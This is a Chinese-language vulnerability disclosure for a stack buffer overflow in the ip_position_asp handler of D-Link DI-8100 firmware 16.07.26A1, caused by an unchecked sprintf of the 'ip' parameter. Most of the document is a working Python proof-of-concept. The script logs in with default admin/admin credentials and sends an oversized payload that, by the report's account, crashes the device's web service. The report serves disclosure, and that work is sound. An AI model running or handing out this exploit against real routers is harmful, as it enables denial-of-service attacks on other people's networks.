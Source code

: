 # DI-8100 缓冲区溢出漏洞报告  

## 漏洞描述  

在 DI_8100 的 `ip_position_asp` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃。  

## 影响版本  

- DI_8100-16.07.26A1  

## 代码审计

ip_position_asp函数中，ip参数可控，被用sprintf复制给v5造成栈溢出

<img width="493" alt="image" src="https://github.com/user-attachments/assets/367b9da9-9614-4912-8b78-004b842560dc">



## 漏洞利用证明 (POC)  

```plaintext
import requests  
  
session = requests.session()  

login_url = "http://192.168.0.1/login.cgi"  
login_headers = {  
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",  
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",  
    "Accept-Language": "en-US,en;q=0.5",  
    "Accept-Encoding": "gzip, deflate, br",  
    "Content-Type": "application/x-www-form-urlencoded",  
    "Origin": "http://192.168.0.1",  
    "Connection": "close",  
    "Referer": "http://192.168.0.1/login.html",  
    "Upgrade-Insecure-Requests": "1"  
}  
login_data = {  
    "user": "admin",  
    "password": "admin"  
}  
 
login_response = session.post(login_url, headers=login_headers, data=login_data)  
  
payload = b'a'*0x400  
command_url = f"http://192.168.0.1/ip_position.asp?ip={payload}"  
command_headers = {  "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",  "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",  "Accept-Language": "en-US,en;q=0.5",  "Accept-Encoding": "gzip, deflate, br",  "Connection": "close",  "Upgrade-Insecure-Requests": "1"  
}  

response = session.get(command_url, headers=command_headers)  
 
print(response.text)

##验证结果

<img width="416" alt="image" src="https://github.com/user-attachments/assets/5980fb5b-ce9d-4d14-8932-245ed918e925">

发送poc后，web服务崩溃

<img width="415" alt="image" src="https://github.com/user-attachments/assets/10351687-aab0-4a29-8af7-f70fd55c49be">

